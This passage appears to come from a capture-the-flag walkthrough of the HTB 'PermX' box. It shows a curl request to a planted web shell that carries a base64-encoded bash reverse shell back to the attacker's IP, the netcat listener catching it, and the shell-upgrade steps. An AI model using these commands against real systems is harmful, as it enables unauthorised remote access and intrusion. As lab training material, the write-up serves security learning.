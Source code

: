 ```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Obtaining a Reverse Shell

To gain access to the system, I used the ncreated web shell to execute a reverse shell payload.

1. **Execute the Payload**: I crafted a `curl` command to send a base64-encoded payload to the web shell. The payload was decoded and executed via the web shell. The command used was:
   ```bash
   curl "http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/bam.php?cmd=echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yOS80NDQ0IDA%2bJjE%3d'+|base64+-d+|bash"
edit the base64 payload to your own ip adress
**Result**
```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.11.23] 34924
bash: cannot set terminal process group (1192): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```
### Upgrading the Shell

Once I had a reverse shell, I upgraded it to a more stable interactive shell for better control.

1. **Upgrade Shell**: I used a Python one-liner to upgrade the shell to a more interactive and functional state:
   ```bash
   python -c 'import pty; pty.spawn("/bin/bash")'
Background Shell: To regain control over my terminal, I sent the shell to the background with Ctrl+Z.

Reattach and Fix Terminal: I then reattached the shell using fg and fixed the terminal settings:
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$  python3 -c 'import pty; pty.spawn("/bin/bash")'
<s$  python3 -c 'import pty; pty.spawn("/bin/bash")'                     
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                      
┌──(mofe㉿mofe)-[~]
└─$ stty raw -echo ; fg          
[1]  + continued  nc -lnvp 4444

<c/lib/javascript/bigupload/files$ export TERM=xterm                     
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```
now we have a fully interactive shell
i being enumeration for privesc

---
after manually browsing through config files looking for creds or any other information i can leverage i decided it's time to download 
'linpeash.sh' onto the box
### Downloading linpeas.sh Using a Python Web Server
